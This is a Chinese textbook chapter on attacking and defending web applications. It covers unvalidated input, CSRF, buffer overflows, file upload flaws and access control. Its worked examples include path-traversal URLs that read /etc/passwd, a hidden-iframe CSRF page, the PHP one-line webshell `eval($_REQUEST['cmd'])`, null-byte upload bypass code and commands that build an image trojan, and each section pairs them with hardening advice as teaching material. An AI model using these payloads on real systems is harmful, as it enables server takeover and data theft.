# 第七章 Web 应用漏洞攻防

## 7.1 序曲

### 7.1.1 引言

随着网络时代的高速发展，互联网已经逐渐成为了人们与外界沟通、认识世界的一个重要手段与载体，而** Web 应用**作为其中最为直接的工具，在网络安全领域扮演着举足轻重的角色。在 Web 1.0 时代，Web 安全问题主要聚焦在 Web 应用服务器端动态脚本的安全，目标是获得服务器的控制权。到了 Web 2.0 时代，Web 应用前端安全开始引起广泛关注，黑客针对 Web 应用的各种漏洞利用思路也越来越有创意性与技巧性。随着敏捷开发及各类动态脚本语言的繁荣发展，Web 前后端开发框架层出不穷，这些都给 Web 应用漏洞攻防领域带来了越来越多的新思路和新挑战。

### 7.1.2 Web 安全模型

在 Web 应用安全领域，工业界往往习惯于将其划分为两部分：客户端脚本安全（即前端安全）及服务端脚本安全（即后端安全）。这种划分方法是借鉴了 Web 应用开发普遍采用的前端和后端分工方式，并没有考虑到漏洞触发条件和位置的更具体差异。可以说上述划分方式没有从 Web 应用内部运行原理及漏洞真正的触发点出发，前后端安全这种划分方式不利于初学者对于 Web 应用漏洞原理的系统学习与深入理解。

在研究 Web 应用漏洞之前，首先需要了解 Web 应用程序服务模型，对一次客户端（PC 时代主要指代的是浏览器；移动互联网和物联网时代的很多 App 要么是使用了 HTTP 协议的客户端实现，要么是直接嵌入了一个定制化的浏览器引擎，这些均可以视为披着原生应用外衣的浏览器）发起的请求的整个生命周期有一个完整的认知，才能更好地理解 Web 应用相关安全问题，从而展开深入研究。下图是一个 Web 应用程序服务简化模型图。



从一次客户端发起的请求来看，请求数据首先 **输入** Web 应用程序，在数据到达 Web 应用程序内部后，相关服务端代码开始处理数据。典型的数据处理逻辑包括了对数据库或第三方 API 等外部 **后台** 服务的远程调用，此时请求数据就有机会 **进入后台** 。后台服务处理完请求数据后返回数据给相关服务端的请求发起代码，经过进一步的数据处理，服务端代码将本次客户端请求结果以 **输出**响应数据的方式返回给请求发起者——客户端。服务端代码的运行环境包括了一系列软件构成的一个运行环境堆栈，例如：**中间件、操作系统、服务器硬件、服务器所在网络**等。我们一般将这个运行环境堆栈又称为服务端**平台**。

对于一个具体的 Web 应用程序漏洞利用程序而言，其成功触发一定离不开一个具体的漏洞利用代码执行过程。这个漏洞利用代码最终执行的具体位置，我们称之为**漏洞触发点**。有了漏洞触发点的概念，依据 Web 应用程序服务简化模型，我们定义一套** Web 漏洞模型**。按照 **漏洞触发点** 的不同，我们将 Web 漏洞分为五大类。

* 输入相关的通用漏洞：这一类 Web 漏洞，特指漏洞触发点在 Web 应用程序的服务端代码，且普遍存在于所有服务端脚本环境。对于不同的服务端脚本环境而言，这类漏洞的利用方式往往具有通用性、平台无关性或平台差异性小等特点。这类漏洞的存在，主要源于对于客户端发送请求的不当处理。这类典型漏洞包括 CSRF 攻击、文件上传漏洞、字符编码漏洞等。
* 服务端脚本相关漏洞：本类漏洞可以进一步细分为`设计模式类漏洞`、`语言特性误用类漏洞`和`第三方组件缺陷`。设计模式类典型漏洞如：`脆弱的访问控制`、`脆弱的认证和会话管理`，语言特性误用类如：文件包含、XXE、反序列化漏洞。第三方组件缺陷又被归结为供应链安全问题，现代软件和信息系统已经不再是所有代码都是自己编写，软件工程里被奉为圣经的「可重用」原则催生了大量的开源和商用软件组件，被这些存在漏洞的「可重用」组件影响的信息系统往往只能依赖于相关组件漏洞的修复来达到加固自身的目的。本类 Web 漏洞与输入相关的通用漏洞一样，漏洞触发点在 Web 应用程序的服务端代码。不同的是，对于不同组合服务端脚本环境的漏洞攻击向量构造方式差异较大。基于一些动态脚本语言的特性，某些漏洞可能仅在特定的服务端脚本环境中才能被利用。举例而言，由于 PHP 语言的语法特性，可以在代码中通过调用 `include()`、`require()` 等方法加载本地甚至是以 URL 方式指代的互联网脚本文件，实现跨文件的动态代码调用执行。当被调用的文件可以被攻击者控制时，就可以触发文件包含漏洞。类似的特性在 JSP、ASP 脚本中同样存在，而在其他服务端脚本语言中则几乎不存在。这类漏洞的存在虽然也是源于服务端脚本对输入数据的不当处理，但利用这一类漏洞的方法则更依赖特定脚本运行环境。
* 后台相关漏洞：当客户端发来的请求作为 Web 应用程序的输入，已经被服务端脚本进行处理后，进一步通过模型操作或 API 程序调用请求并操作了第三方的服务或应用从而进入到了后台。这一类 Web 漏洞，特指漏洞触发点在 Web 应用程序的后端第三方应用或服务，例如：数据库（关系型数据库、非关系型数据库）、第三方 API 等。对于输入数据的不当处理，危险函数、危险方法的调用是、客户端输入数据字符串拼接后直接交给后台执行是造成这类问题的常见原因。
* 输出相关漏洞：输出相关漏洞特指漏洞触发点在客户端环境（例如 Web 浏览器）中，但触发这一类漏洞的攻击代码则来自于服务端脚本代码对客户端请求数据的不完善数据清洗操作。基于客户端代码执行环境（例如浏览器的 HTML、CSS 代码渲染和 JavaScript 代码执行）的一些特性，可能导致某些**非预期的**客户端脚本执行（例如：跨站点脚本执行漏洞）或**恶意**内容显示（例如用户界面重绘类漏洞可以导致点击劫持、模态登录对话框覆盖钓鱼等）。
* 平台相关漏洞：由于 Web 应用程序运行在系统层面，对底层运行环境配置有着很强的关联性及依赖性。因此一切中间件、操作系统、服务器硬件、服务器所在网络的不当配置都会增加应用程序的运行时风险，甚至引入额外的漏洞。这一类漏洞特指漏洞触发点位于 Web 应用程序运行所依赖的运行时环境，漏洞产生原因则主要归结为程序运行环境的缺陷配置或老旧缺陷版本。一个典型的例子是 `CVE-2010-2266 Nginx 服务器拒绝服务攻击漏洞`。

综上所述，虽然所有漏洞产生的根源都来自于恶意输入数据，但漏洞触发点却有显著差异。接下来，我们将围绕不同漏洞触发点的一些代表性漏洞，展开具体漏洞的攻防原理介绍。

## 7.2 输入相关的通用漏洞

### 7.2.1 未验证的用户输入

假设正常用户请求对应的 URL 如下，其中 `url` 是这个请求对应的 `用户输入参数`：

```
http://victim.com/vul/ViewServlet?url=http://backendhost/images/bg.gif
```

攻击者通过控制 `用户输入参数` 的赋值，可以分别构造如下的恶意输入：

```
http://victim.com/vul/ViewServlet?url=http://internal/weblogic/console
http://victim.com/vul/ViewServlet?url=file:///etc/passwd
http://victim.com/vul/ViewServlet?url=../../../../../../../etc/passwd
```

上面三个恶意输入的例子，依次分别展示了攻击者通过这个简单的应用程序便可以间接的实现：后台程序枚举和扫描、读取服务器上的敏感文件、遍历搜索服务器上文件。

实际上作为攻击者，可以对 HTTP 请求的任何一个部分进行篡改，例如：URL、请求字符串、HTTP 请求头、Cookies、表单域、隐藏域，从而获得对客户端缓存、Cookie、请求编码等的控制，进而实现丰富灵活的 Web 攻击手段。

未验证的用户输入漏洞一旦被利用，可以实现：强制浏览、命令执行、Cookie 毒化和隐藏域控制等效果。此类漏洞的源代码级别成因可归结为：

1. 只在客户端进行了输入验证。
2. 输入数据过滤时未进行规范化，导致过滤措施被绕过。

在 Firefox 浏览器中，可以使用 `Live HTTP Headers` 插件获取HTTP请求头，并使用 `Live HTTP Replay` 进行 HTTP 请求头的修改及重放。



`Burp Suite` 是用于攻击 Web 应用程序渗透测试的集成平台，是一个 HTTP 代理工具。使用 `Burp Suite` 可以轻松地对 HTTP 请求的任何一个部分进行篡改。



针对未验证的用户输入的源代码级别常用安全加固事项有：

1. 所有的用户输入需要在服务端进行集中的统一验证，如：请求参数、Cookies、HTTP 请求头和请求体等。
2. 不“滥用”隐藏域，重要数据应存储在 Session 中或对请求参数进行签名验证。
3. 对于请求参数需要严格验证其类型。例如：数据类型（字符串、整数、浮点数等）、最小和最大长度、是否允许 NULL 字符、参数是否是必需的、数字的取值范围、特定模式（正则表达式）与白名单机制。

### 7.2.2 CSRF 漏洞

``跨站请求伪造``（Cross Site Request Forgery, CSRF），也被称为 ``One Click Attack`` 或者 ``Session Riding`` ，是一种在用户不知情条件下攻击者利用网站信任已认证用户身份执行非用户预期行为的漏洞。CSRF 漏洞往往是 Web 漏洞中最容易被忽略的漏洞，虽然通过遵循安全开发规范可以避免这种漏洞的出现，但依然有很多开发者并不了解正确的 CSRF 防御性编程方法，在代码中留下了 CSRF 漏洞。若网银系统存在 CSRF 漏洞，可能会造成受害者在不知情的情况下进行交易、支付等行为，造成财产损失。

``Cookie`` 作为网站为了辨别用户身份而存储在客户端的数据，经常被用于验证客户端的用户身份，可以起到会话识别、会话保持的作用。当客户端第一次访问某网站时，服务端往往会返回一个 Cookie 作为客户端的凭证，客户端在后续的网站访问过程中会自动发送该 Cookie 。目标网站通过读取 Cookie 即可得知用户的相关信息，根据识别出的用户身份提供相关权限的页面展示和交互功能，所以用户在使用 Web 应用的过程中不用频繁输入用户名、密码来验证身份。

CSRF 最主要是利用了「浏览器会按照一定的规则在后台自动发送 Cookie 给 Web 服务器」这个特性，被攻击者在访问到包含 CSRF 攻击代码的网页时会由浏览器在后台自动执行包含目标网站 Cookie 的攻击代码完成仿冒被攻击者身份执行恶意操作目的。一个典型的 CSRF 漏洞利用过程如下：

1. 用户登录了受信任的网站 A，并在浏览器本地存储了该 Cookie。
2. 在不登出网站 A 的前提下（关闭浏览器并不代表 Cookie 过期或失效），访问了恶意网站 B。
3. 恶意网站 B 要求用户（不展示任何有关网站 A 的页面信息）发出一个请求（POST 或 GET）到网站 A。对于这一步的攻击主要是利用了「浏览器在访问目标 Web 站点时会自动将保存在浏览器中的目标站点 Cookie 发送过去」这个特性。以被攻击者在目标站点的用户身份（目标站点根据当前发送出去的 Cookie 来验证用户身份）发起伪造的 HTTP 请求。
4. 根据上一步恶意网站的操控行为，用户在不知情的前提下，带着自己在网站 A 获得的 Cookie 向网站 A 发送了请求。
5. 存在 CSRF 漏洞的目标受信任站点（网站 A）误以为所有通过了身份验证的请求都是「代表了用户本人意图」而没有考虑到通过 CSRF 漏洞利用方式发起的请求是「被劫持 Cookie 或其他身份认证凭据后伪造」的自动化、非用户本人主动发起的请求。因此受信任的网站 A 根据 Cookie 信息，认为这是可信任用户发送的请求，接受并处理了这个请求。

在上述典型 CSRF 漏洞利用过程中，CSRF 漏洞存在于网站 A 的服务端代码，用户访问恶意网站 B 并不是触发 CSRF 漏洞的必要条件。如果网站 A 同时存在`跨站点脚本漏洞`，则攻击者通过在网站 A 上利用`跨站点脚本漏洞`方式也可以让用户在不知情情况下，触发相关页面的 CSRF 漏洞攻击。

以下 PHP 脚本片段是一个包含 CSRF 漏洞关键代码的实例：

假设一个用户信任的社交 Web 应用程序在服务端实现了一个添加好友的接口，可以使用形如 `http://victim-trusted.com/Addfriend.php?userid=123` 的 GET 请求来进行添加好友的操作，脚本内部实现方法如下：

```php
<?php
session_start();
if (is_authorized()){
  if (isset($_GET['userid'])){
    add_friend($_GET['userid']);
  }
}
```

该脚本实际上违反了 HTTP 规范，没有使用表单提交的方式（即 POST 方式）而是使用 GET 请求更新资源。攻击网站只需在 HTML 代码中构造如下一个带有危险请求链接的图片即可使受害者在不知情的情况下主动添加陌生人为好友。

```html

```

服务端脚本使用 `POST 参数`的方式可以从一定程度上加大漏洞利用的难度，提高安全性，但 CSRF 漏洞依旧是存在的。

```html
<html>
<head>
<script type="text/javascript">
function steal()
{
  iframe = document.frames["steal"];
  iframe.document.Submit("Addfriend");
}
</script>
</head>
<body onload="steal()">
<iframe name="steal" display="none">
  <form method="POST" name="Addfriend"　action="http:// victim-trusted.com/Addfriend.php">
    <input type="hidden" name="userid" value="233">
  </form>
</iframe>
</body>
</html>
```

上述代码中，恶意网站通过嵌入一个包含恶意表单的隐藏 iframe，可以通过 JS 动态执行的方法，在受害者不知情的情况下自动提交 POST 请求，从而主动添加了陌生人为好友。

CSRF 漏洞的源代码级别加固有以下四种方法：

1. 对 `HTTP Header` 中的 `Referer` 字段进行验证。`HTTP Referer` 字段记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求必须来自于同一个网站。比如社交网站的添加好友操作是通过用户访问 `http://victim-trusted.com/Addfriend.php?userid=123` 页面完成，用户必须先登录 `victim-trusted.com`，然后通过点击页面上的按钮来发送添加好友的请求。该请求的 Referer 值是当前页面的 URL (以 `victim-trusted.com` 开头)。而对于攻击者而言，利用 CSRF 漏洞构造的请求的 `HTTP Referer` 值只能是指向攻击者的网站。因此，要防御 CSRF 攻击，可信网站只需要对于每一个 POST 请求验证其 Referer 值，如果是以 `victim-trusted.com` 开头的域名，则说明该请求是来自本网站的合法请求；如果 Referer 是其他网站的话，就有可能是 CSRF 攻击，则拒绝该请求。
2. 在 POST 请求中添加 token 作为参数并验证。这种安全策略被各种 Web 框架广泛采用（包括 `Laravel` 等）。CSRF 漏洞能够被利用的主要原因就是用户的全部验证信息均保存在 `Cookie` 中，攻击者可以在不接触到 `Cookie` 的前提下完成身份验证。因此，只需在请求中设置一个攻击者所无法伪造的、不可预测的 `token`，且保证这个 `token` 与 `Cookie` 是毫无关联的。此外，还应保证这个 `token` 是独立且不重复使用的。在服务端验证用户身份时应同时对 `Cookie` 及 `token` 进行验证。这个 `token` 被称为 `csrftoken`，在 HTML 的表单中，该字段的输入域往往是隐藏的。
3. 在 HTTP 头中自定义属性并验证。自定义属性的方法也是使用 token 并进行验证，和前一种方法不同的是，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 `HTTP Header` 中自定义的属性里。当前一种方法实现不便的情况下，可以采用这种安全策略进行系统加固。
4. 添加验证码并验证。可以在表单中增加随机验证码，采用强制用户与 Web 应用进行交互的方式防止 CSRF 攻击。这种方式适用于登录验证、交易等针对危险操作的接口，但强制所有请求都使用验证码往往也是不现实的。因此是否采用这种安全策略应该根据具体情况来决定。

在实战中， Web 程序往往采用在 POST 请求中添加 token 作为参数并验证的方法作为防止 CSRF 漏洞的安全策略。应该注意的是，不要将 `csrftoken` 作为 GET 参数进行请求，防止请求地址被记录到浏览器的地址栏，也防止 token 通过 Referer 泄露到其他网站。

### 7.2.3 缓冲区溢出漏洞

``缓冲区溢出``（Buffer Overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。根据 Web 应用缓冲区溢出漏洞的利用目的及危害对其进行划分，可以分为如下两类：

1. 拒绝服务。攻击者可以通过将过量的输入数据插入到可修改的注入向量中来溢出缓冲区，造成程序有关数据被覆盖、修改，最终导致 Web 应用进入挂起甚至崩溃状态，从而达到拒绝服务的效果。这类缓冲区溢出攻击往往实现难度较低。
2. 任意代码执行。这种情况下，攻击者同样通过将过量的输入数据插入到可修改的注入向量中来溢出缓冲区，溢出的数据中包含恶意指令且恶意指令被精确填充到可执行堆/栈（内存）中进而导致恶意代码被执行。这类攻击手段主要通过覆盖修改 EIP 寄存器，使得程序运行过程中的返回地址发生改变，并精确指向填充数据中的可执行脚本 shellcode 中，最终导致恶意代码的执行。这类缓冲区溢出攻击往往需要较强的攻击技巧，难度也较高。

应用程序的缓冲区中存在过量的输入数据，溢出的数据中则包含恶意指令且恶意指令被精确填充到可执行堆/栈（内存）中进而导致恶意代码被执行。下面列举一些不同语言编写的 Web 应用程序中存在的缓冲区溢出风险。如 Java Web 应用程序中的 OutOfMemoryError、CVE-2011-0311、CVE-2009-1099 漏洞，PHP Web 应用程序的 CVE-2011-3268、CVE-2008-5557、CVE-2008-2050、CVE-2007-1399、CVE-2007-1381 等漏洞，[据统计 PHP 的缓冲区溢出相关漏洞从 1997 到 2018 年累计超过 150 个](https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/opov-1/PHP-PHP.html)。

引起 Web 应用的缓冲区溢出的主要原因是在对于输入数据没有经过校验的情况下，直接将其作为参数调用了底层编程语言的危险函数。另外一种情况是， Web 应用直接调用了存在缓冲区溢出漏洞的本地应用程序，通过 Web 应用这一外在调用者来触发了这一漏洞。因此，可以认为缓冲区溢出漏洞的触发原因与应用程序运行所依赖的底层平台、架构具有很强的关联性。

下面以 CVE 编号为 `CVE-2008-4127` 的 IE 浏览器 Web 客户端缓冲区溢出漏洞为例，详细说明缓冲区溢出漏洞的触发原理。

HTML5 中，允许使用 `<embed>` 标签对多媒体资源进行引用。在 HTML 文档中，一个典型的 `<embed>` 标签引用方法如下：

```html
<EMBED TYPE="audio/midi" SRC="/path/file.mid" AUTOSTART="true">
```

客户端浏览器对于该标签中定义的多媒体资源进行渲染的过程，实际调用了系统中底层的 `mshtml.dll` 组件进行处理。当攻击者对于该标签中的 `src` 属性中的值进行操作，输入超长的路径值，则会触发 `mshtml.dll` 组件的缓冲区溢出漏洞。

基于缓冲区溢出漏洞的原理及特性，可以采取如下四种策略对系统进行修补及加固：

1. 避免使用本地代码。
2. 避免直接调用本地应用程序。
3. 及时更新应用运行环境，如 Java 虚拟机的安全更新补丁和 PHP 语言的安全更新补丁。
4. 限制 Web 应用程序的运行权限，使用沙盒技术。

### 7.2.4 文件上传漏洞

在使用互联网的过程中，我们常常会使用到 Web 应用程序中的文件上传功能，比如使用社交软件上传图片，发送邮件附带附件、提交文档等等。对于一个 Web 应用程序而言，客户端所上传的文件就是整个程序的输入数据。对于“文件上传”这个正常的业务需求，如果 Web 应用的服务端没有对于用户所上传的文件使用足够安全的处理逻辑，则有可能会造成文件上传漏洞。通过该漏洞，攻击者可以通过上传 Web 脚本（一般称为 ``WebShell``）达到远程控制服务器、篡改服务器上文件（特别的，可以实现网页挂马攻击）等效果，或者上传病毒、木马文件诱使用户下载以达到恶意代码传播扩散的目的。

在大部分情况下，攻击者对于文件上传漏洞的攻击利用都是通过 `WebShell` 形式实现的。PHP 的“一句话木马”就是一个典型的 `WebShell` ：

```php
<?php eval($_REQUEST['cmd']); ?>
```

通过对请求参数的操作，可以达到任意代码执行的目的。通常在这种情况下，文件上传漏洞的成因可以归结为「用户上传的文件能够直接被服务器当作服务端代码执行」。该类型攻击的成功实现，需要满足两方面条件。第一，为了使用户上传文件成功被解析，需要使上传后文件能够通过 Web 程序定义的 URL 路由规则访问到。第二，文件内容即使经过格式化、压缩等处理被修改，也需要维持其“可被执行”的状态及条件。

大部分 Web 应用程序开发者对于上传文件功能实现较为谨慎。常常采用下述两类方法对用户上传文件的文件格式进行验证和过滤。

1) 根据文件扩展名判断。一些应用仅仅在客户端进行文件扩展名的校验，这种验证机制可以通过使用代理、断点上传工具等轻松伪造并绕过。即使在应用服务器端对文件扩展名进行校验，同样可能存在被绕过的风险。基于黑名单的方式通常被视为不安全的验证方式，黑名单往往无法涵盖所有可被服务器环境解释或引用的危险文件格式类型。基于白名单的方式相对较为安全，但 [CVE-2006-7243 `%00 字符截断问题`](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2006-7243) 和 [CVE-2015-2348 move_uploaded_file() 第 2 个参数存在 %00 字符截断问题](http://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2015-2348) 均可能绕过这种验证机制。

以下是一段典型的根据文件扩展名判断文件类型并决定是否保存用户上传文件的代码，如果该代码在存在 `CVE-2006-7243` 漏洞的 PHP 运行环境（`PHP 5.3.4` 之前版本均受影响）中执行。如应用本来只允许上传扩展名为 `.jpg` 的图片，但攻击者可以构造文件名 `eval.php%00.jpg`（其中 `%00` 是 `NULL` 字符的 URL 编码形式），`.jpg` 扩展名骗过了应用的上传文件类型检测，实际在服务器上创建的文件名将是 `eval.php` 。

```php
// 利用 CVE-2006-7243 实现 PHP 文件上传漏洞
$uploads_dir = '/var/www/html/uploads'; // 上传文件根目录
$allowed     = array('gif', 'png' , 'jpg'); // 允许上传的文件扩展名白名单
$filename    = $_FILES['pictures']['name']; // 获取上传文件的完整文件名，CVE-2006-7243 漏洞影响此处
$ext         = pathinfo($filename, PATHINFO_EXTENSION); // 解析上传文件的扩展名
if(!in_array($ext, $allowed) ) {
    echo 'error';
    exit(1);
} else {
   // 在服务器上保存该文件 
   move_uploaded_file($_FILES["pictures"]["tmp_name"], "$uploads_dir/$filename");
}
```

若服务器上 PHP 版本不存在 `CVE-2006-7243` 漏洞，上述攻击者构造的包含 NULL 字符的特殊文件名被赋值到``$_FILES["pictures"]["name"]`` 时会被 PHP 引擎处理为 `eval.php`，不再包含 NULL 字符右侧数据，此时原有的攻击向量就无法绕过现有的文件扩展名检测代码。

```php
// 利用 CVE-2015-2348 实现 PHP 文件上传漏洞
$uploads_dir = '/var/www/html/uploads'; // 上传文件根目录
$allowed     = array('gif', 'png' , 'jpg'); // 允许上传的文件扩展名白名单
$filename    = $_REQUEST['filename'];; // 获取上传文件的完整文件名，CVE-2015-2348 只有在 $filename 是从 POST、GET 方法的请求参数中读取时才有效
$ext         = pathinfo($filename, PATHINFO_EXTENSION); // 解析上传文件的扩展名
if(!in_array($ext, $allowed) ) {
    echo 'error';
    exit(1);
} else {
   // 在服务器上保存该文件 
   move_uploaded_file($_FILES["pictures"]["tmp_name"], "$uploads_dir/$filename");
}
```

上述代码在第一段代码的基础上稍作修改，如果修改后代码所在 PHP 执行环境存在 `CVE-2015-2348` 漏洞（主要影响 PHP 5.5.0 ~ 5.5.22 、5.6.0 ~ 5.6.6 系列版本），则服务端脚本执行 ``move_uploaded_file($_FILES['pictures']['tmp_name'], "$uploads_dir/$filename");`` 的效果却是创建了文件 `/var/www/html/uploads/eval.php` 。至此，攻击者又一次成功绕过了代码中对文件扩展名的校验在服务端上存储了一个可以被 PHP 引擎解析执行的脚本文件。由于 `CVE-2015-2348` 只有在 `$filename` 是从 POST、GET 方法的请求参数中读取时才有效，因此该漏洞在实战中比较鸡肋，因为大多数 PHP 程序员都是使用 ``$_FILES`` 数组获取用户上传的文件名。

2) 根据文件头部若干字节数据判断。既然根据文件扩展名判断文件类型不可靠，于是有些服务端程序员想到了用 `文件幻数` 匹配的方式来判断文件类型是否允许或非法。`幻数`（`Magic Number`）可以用来标记文件或者协议的格式，很多文件使用幻数标志来表明该文件的格式。例如 GIF 格式文件的前 4 字节用 16 进制表示为 `47 49 46 38`，PNG 格式文件的前 4 字节用 16 进制表示为 `89 50 4e 47`，但微软 Office 系列的 `.docx` 、`.pptx` 和 `.xlsx` 格式文件的前 4 字节都是 `50 4B 05 06`。虽然会有无法精确识别文件类型的缺陷，但在大多文件上传应用仅允许上传图片类型文件时，使用`幻数`匹配的方式是一种常见的“有效”手段。但攻击者只需要将想要上传执行的脚本附加到白名单文件格式的文件头之后，再使该文件被脚本语言解释器所解释执行即可达成文件上传漏洞利用。为了使得非脚本文件扩展名文件被当作目标脚本在服务端解释执行，通常需要配合其他运行环境相关的漏洞，例如：[CVE-2013-4547](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-4547)允许攻击者通过一个 URI 中的未转义空格字符绕过 Nginx 服务器的后缀名限制实现把非脚本文件扩展名文件解析成脚本文件扩展名访问执行；Nginx 的 CGI 参数配置错误导致访问形如 `/image/1.jpg/1.php` 这样的 URI 实际被解析成加载服务器上的 `/image/1.jpg` 文件当作 PHP 脚本执行。最终，借助服务器 URI 解析类漏洞，文件上传漏洞利用成功绕过了「根据文件头部若干字节数据判断」的防御机制。

例如，某网站提供了一个上传文件的功能，仅仅允许用户上传 `JPEG` 格式的图片，并通过上传文件的文件头进行校验。假设攻击者已经拿到了一个标准的 JPEG 文件 `standard.jpg` 和一个一句话木马脚本 `eval.php`，则其可直接通过在 Windows 上的 CMD 控制台运行指令 `copy standard.jpg/b eval.php/a exploit.jpg` 或在 Linux 上的终端中运行指令 `cat standard.jpg eval.php > exploit.jpg` 将两个文件进行拼接，即可完成图片木马的制作，从而达到绕过服务端验证的目的。

对于**文件上传漏洞**的加固和修补有如下几种手段，建议尽可能多的组合使用：

1. 对于用户上传文件的存储目录应该禁用脚本解释引擎对该目录中文件的解释执行功能，即使攻击者上传了恶意文件也无法成功执行、利用。
2. 在服务端代码使用文件后缀名白名单，避免使用黑名单的过滤方式。
3. 服务端代码运行依赖环境保持更新（如 `Web Server`、`第三方文件上传组件`、`脚本运行引擎` 等）。
4. 对于图片上传类场景，在不需要保存原始文件的情况下，可以对图片进行二次渲染，既可以发现和过滤掉异常格式的图片，也可以破坏可能嵌入在图片中的恶意代码完整性。
5. 保存文件到服务器上的文件系统时，重写用户提供的文件名为用户不可控的由安全字符构成的文件名，例如用文件散列值来重命名上传的文件名。

## 7.3 服务端脚本相关漏洞

### 7.3.1 脆弱的访问控制

在 [7.2.1 未验证的用户输入](#721-未验证的用户输入) 一节我们已经展示了服务端脚本对用户提交的 HTTP 请求参数未经验证造成类似`任意文件读取`的漏洞利用效果。在本小节，虽然还是研究由于脚本未验证用户输入导致的漏洞，但我们进一步聚焦到服务端用于实现访问控制机制的代码在存在此类未验证用户输入缺陷代码时的漏洞利用效果差异和具体代码修复方法。

以下是 3 类常见的存在脆弱访问控制缺陷的 URL 示例。

```bash
# 示例一：⽂档/软件的下载链接地址保护 
http://victim.org/docs/1.doc
http://victim.org/docs/download.do?id=1

# 示例二：Web应用程序的后台管理⼊⼝地址
http://victim.org/admin
http://victim.org/console/login

# 示例三：后台操作未执⾏用户身份认证和授权检查
http://victim.org/users/deleteUser.do?userid=001
http://victim.org/users/addUser.do?userid=001
```

示例一的缺陷主要来自于受访问控制保护的服务器上存储文件能够被轻易的枚举和预测出对应的 URL。攻击者只需要「猜解出」文件的 URL，就可以访问到对应的文件。服务器端代码未能检查当前请求是否持有被访问 URL 所需要的「权限令牌」（常见的 Web 应用「权限令牌」实现方式是通过 cookie 来携带传输）。

